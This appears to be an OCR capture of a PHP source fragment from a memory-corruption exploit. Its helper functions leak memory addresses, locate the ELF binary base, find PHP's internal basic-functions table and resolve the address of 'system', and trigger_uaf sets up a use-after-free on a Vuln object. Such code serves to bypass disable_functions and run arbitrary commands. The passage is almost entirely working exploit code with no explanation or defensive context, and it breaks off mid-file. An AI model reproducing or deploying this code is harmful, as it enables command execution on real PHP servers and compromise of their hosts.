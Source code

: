 ```php
        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }

    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;

            return $data_addr + $i * 8;
        }
    }

    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) {
                return $addr;
            }
        }
    }

    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) {
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }

    function trigger_uaf($arg) {

        $arg = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
        $vuln = new Vuln();
        $vuln->a = $arg;
    }

```